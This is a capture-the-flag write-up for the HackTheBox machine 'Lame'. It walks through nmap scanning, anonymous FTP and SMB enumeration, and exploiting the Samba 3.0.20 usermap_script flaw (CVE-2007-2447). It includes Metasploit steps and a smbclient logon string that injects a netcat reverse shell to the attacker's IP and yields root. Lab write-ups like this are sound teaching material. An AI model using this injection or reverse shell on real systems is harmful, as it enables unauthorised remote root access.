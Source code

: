 ```yaml
---
title: Lame
tags:
  - HackTheBox
  - Easy
  - Linux
  - Metasploit
---
```

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.10.3 lame.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- lame.htb > sC.txt

[redacted]
PORT     STATE SERVICE
21/tcp   open  ftp
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.13
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd
```

As you can see above, anonymous login is enabled, so I tried it:

```shell
ftp anonymous@lame.htb
```

But I didn't find anything, so I decided to check the port 139 (related to SMB):

```shell
Password for [WORKGROUP\gitblanc]:
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            LAME
```

It also had anonymous login, and 3 disk are seen. First, I connected to `/tmp` and perform a `ls`:

```shell
smbclient  //lame.htb/tmp

[redacted]
smb: \> ls
  5569.jsvc_up                        R        0  Wed Oct 30 15:50:54 2024
  .ICE-unix                          DH        0  Wed Oct 30 15:49:51 2024
  vmware-root                        DR        0  Wed Oct 30 15:49:55 2024
  .X11-unix                          DH        0  Wed Oct 30 15:50:17 2024
  .X0-lock                           HR       11  Wed Oct 30 15:50:17 2024
  vgauthsvclog.txt.0                  R     1600  Wed Oct 30 15:49:50 2024
```

Then I downloaded `vgauthsvclog.txt.0`:

```shell
get vgauthsvclog.txt.0

[redacted]
[Oct 30 10:49:50.298] [ message] [VGAuthService] VGAuthService 'build-4448496' logging at level 'normal'
[Oct 30 10:49:50.298] [ message] [VGAuthService] Pref_LogAllEntries: 1 preference groups in file '/etc/vmware-tools/vgauth.conf'
[Oct 30 10:49:50.298] [ message] [VGAuthService] Group 'service'
[Oct 30 10:49:50.298] [ message] [VGAuthService]         samlSchemaDir=/usr/lib/vmware-vgauth/schemas
[Oct 30 10:49:50.298] [ message] [VGAuthService] Pref_LogAllEntries: End of preferences
[Oct 30 10:49:50.362] [ message] [VGAuthService] VGAuthService 'build-4448496' logging at level 'normal'
[Oct 30 10:49:50.362] [ message] [VGAuthService] Pref_LogAllEntries: 1 preference groups in file '/etc/vmware-tools/vgauth.conf'
[Oct 30 10:49:50.362] [ message] [VGAuthService] Group 'service'
[Oct 30 10:49:50.362] [ message] [VGAuthService]         samlSchemaDir=/usr/lib/vmware-vgauth/schemas
[Oct 30 10:49:50.362] [ message] [VGAuthService] Pref_LogAllEntries: End of preferences
[Oct 30 10:49:50.363] [ message] [VGAuthService] Cannot load message catalog for domain 'VGAuthService', language 'C', catalog dir '.'.
[Oct 30 10:49:50.364] [ message] [VGAuthService] INIT SERVICE
[Oct 30 10:49:50.364] [ message] [VGAuthService] Using '/var/lib/vmware/VGAuth/aliasStore' for alias store root directory
[Oct 30 10:49:50.397] [ message] [VGAuthService] SAMLCreateAndPopulateGrammarPool: Using '/usr/lib/vmware-vgauth/schemas' for SAML schemas
[Oct 30 10:49:50.435] [ message] [VGAuthService] SAML_Init: Allowing 300 of clock skew for SAML date validation
[Oct 30 10:49:50.435] [ message] [VGAuthService] BEGIN SERVICE
```

Didn't give me anything interesting, so I decided to take a look at the Samba version previously found.

## Weaponization

I searched for "Samba 3.0.20 exploit" and found [CVE-2007-2447](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)

```shell
msf > use exploit/multi/samba/usermap_script
msf exploit(usermap_script) > show targets
    ...targets...
msf exploit(usermap_script) > set TARGET lame.htb
msf exploit(usermap_script) > show options
    ...show and set options...
msf exploit(usermap_script) > exploit
```

## Explotation

I had to read the exploit (*because it didn't work with the msfconsole*). This is basically the vulnerability:

![](Pasted%20image%2020241030162738.png)

This can be applied to the moment we establish a connection to bypass login (username parameter):

```shell
smbclient //lame.htb/tmp

[redacted]
smb: \> logon "/=`nohup nc -nv 10.10.14.13 666 -e /bin/sh`"
```

![](Pasted%20image%2020241030163018.png)

> We directly become root! 

Now we can see the user and root flag:

![](Pasted%20image%2020241030163137.png)

![](Pasted%20image%2020241030163222.png)

==Machine pwned!==